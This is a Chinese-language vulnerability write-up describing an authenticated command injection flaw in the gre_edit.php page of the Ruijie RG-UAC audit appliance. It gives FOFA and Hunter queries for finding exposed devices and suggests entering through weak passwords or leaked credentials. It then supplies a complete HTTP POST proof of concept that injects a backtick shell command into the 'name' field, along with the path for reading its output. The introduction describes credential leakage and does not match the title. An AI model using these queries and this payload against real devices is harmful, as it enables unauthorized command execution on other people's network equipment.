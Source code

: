 # 锐捷RG-UAC统一上网行为管理审计系统gre_edit后台命令执行漏洞

# 一、漏洞简介
锐捷RG-UAC统一上网行为管理审计系统存在账号密码信息泄露,可以间接获取用户账号密码信息登录后台 。

# 二、影响版本
+ 锐捷RG-UAC统一上网行为管理审计系统

# 三、资产测绘
+ hunter`app.name="Ruijie 锐捷 RG-UAC"`
+ fofoa:`app="Ruijie-RG-UAC"`

登录页

![1711942665811-46dbe53d-d2cc-433f-ac40-7a78aa2d4c6c.png](./img/wf8C3DaCBPoqZ1fi/1711942665811-46dbe53d-d2cc-433f-ac40-7a78aa2d4c6c-701572.png)

# 四、漏洞复现
使用弱口令/敏感信息泄露漏洞登录系统后台

![1714985896501-ee5e7557-a9fe-4b1f-9baa-a777b9f147e5.png](./img/wf8C3DaCBPoqZ1fi/1714985896501-ee5e7557-a9fe-4b1f-9baa-a777b9f147e5-874417.png)

获取Cookie后使用下面poc

```plain
POST /view/networkConfig/GRE/gre_edit.php HTTP/1.1
Host: 
Cookie: PHPSESSID=ae63a240e1fdfb5614107040d19120f3
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Length: 17

name=`pwd+>1.txt`
```

![1714985931696-3bd8e43e-817b-4b7f-b9b1-7f3664b0a1c6.png](./img/wf8C3DaCBPoqZ1fi/1714985931696-3bd8e43e-817b-4b7f-b9b1-7f3664b0a1c6-200127.png)

```plain
/view/networkConfig/GRE/1.txt
```

![1714986112359-00f98557-ca7c-4184-b5be-8717fce28791.png](./img/wf8C3DaCBPoqZ1fi/1714986112359-00f98557-ca7c-4184-b5be-8717fce28791-931665.png)



> 更新: 2024-06-24 11:42:28  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/yig773u39hvi17q6>